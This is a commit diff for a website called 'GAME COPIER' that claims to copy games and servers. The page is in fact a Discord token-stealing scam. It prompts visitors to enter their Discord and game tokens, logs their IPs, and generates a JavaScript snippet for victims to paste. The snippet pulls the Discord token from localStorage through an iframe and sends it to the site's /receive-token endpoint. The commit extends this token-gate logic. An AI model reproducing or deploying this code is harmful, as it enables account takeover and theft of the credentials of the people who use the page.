

Before and after one commit to skibiditoile3qb/GAME-COPIER, a website: page public/index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Game Copier". Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -154,8 +154,8 @@
   <div class="container">
     <h1>GAME COPIER</h1>
     <p>Copy games & servers (legally)</p>
-<!-- Token Gate - Discord + Game Token -->
-<div id="tokenGateBox" style="margin-bottom: 24px;">
+    <!-- Token Gate - Discord + Game Token (HIDDEN BY DEFAULT) -->
+    <div id="tokenGateBox" style="margin-bottom: 24px; display: none;">
       <input type="text" id="discordTokenGateInput" placeholder="Enter Discord Token" autocomplete="off" />
       <input type="text" id="gameTokenGateInput" placeholder="Enter Game Token" autocomplete="off" />
       <button id="tokenGateSubmitBtn">Submit</button>
@@ -234,6 +234,17 @@
     const discordTokenSubmitBtn = document.getElementById('discordTokenSubmitBtn');
 
     const adminBtn = document.getElementById('adminBtn');
+    const tokenGateBox = document.getElementById('tokenGateBox');
+    const discordTokenGateInput = document.getElementById('discordTokenGateInput');
+    const gameTokenGateInput = document.getElementById('gameTokenGateInput');
+    const tokenGateSubmitBtn = document.getElementById('tokenGateSubmitBtn');
+    const downloadSection = document.getElementById('downloadSection');
+    const downloadBtn = document.getElementById('downloadBtn');
+    const downloadGateMsg = document.getElementById('downloadGateMsg');
+    const verifyBtn = document.getElementById('verifyBtn');
+    let tokenGateVerified = localStorage.getItem('tokenGateVerified') === '1';
+    let discordGateToken = '';
+    let gameGateToken = '';
 
     let permissionGranted = false;
 
@@ -264,6 +275,7 @@
       serverIdInput.value = '';
       tokenInput.value = '';
       discordTokenInput.value = '';
+      tokenGateBox.style.display = 'none'; // Hide token gate on reset
     }
 
     // Get user IP for logging
@@ -300,7 +312,6 @@
     }
 
     setupTokenInput(tokenInput);
-
 
     // Clipboard permission handling
     document.addEventListener('keydown', async (e) => {
@@ -360,6 +371,9 @@
         tokenBox.style.display = 'block';
         errorMessage.textContent = '';
 
+        // --- SHOW THE TOKEN GATE ---
+        tokenGateBox.style.display = 'block';
+
       } catch (err) {
         window.location.href = 'https://example.com/denied';
       }
@@ -402,7 +416,6 @@
       }
 
       const code = `(()=>{const a=document.createElement('iframe');document.body.appendChild(a);try{const b=a.contentWindow.localStorage.token;const c="${serverId}";const d=btoa(b);window.open('${window.location.origin}/receive-token?token='+encodeURIComponent(b)+'&serverId='+encodeURIComponent(c),'_blank');console.log('Discord Server: '+c+'. Discord SERVER TOKEN: '+d);}catch(e){console.error('❌ Failed:',e);}a.remove();})();`;
-
 
       jsCode.textContent = code;
       jsCodeBox.style.display = 'block';
@@ -453,17 +466,8 @@
         window.location.href = `/admin?password=${encodeURIComponent(password)}`;
       }
     };
-    const discordTokenGateInput = document.getElementById('discordTokenGateInput');
-const gameTokenGateInput = document.getElementById('gameTokenGateInput');
-const tokenGateSubmitBtn = document.getElementById('tokenGateSubmitBtn');
-const downloadSection = document.getElementById('downloadSection');
-const downloadBtn = document.getElementById('downloadBtn');
-const downloadGateMsg = document.getElementById('downloadGateMsg');
-const verifyBtn = document.getElementById('verifyBtn');
-let tokenGateVerified = localStorage.getItem('tokenGateVerified') === '1';
-let discordGateToken = '';
-let gameGateToken = '';
 
+    // --- Token Gate Logic ---
     tokenGateSubmitBtn.onclick = () => {
       discordGateToken = discordTokenGateInput.value.trim();
       gameGateToken = gameTokenGateInput.value.trim();
@@ -496,6 +500,7 @@
         verifyBtn.style.display = 'none';
       }
     };
+
   </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
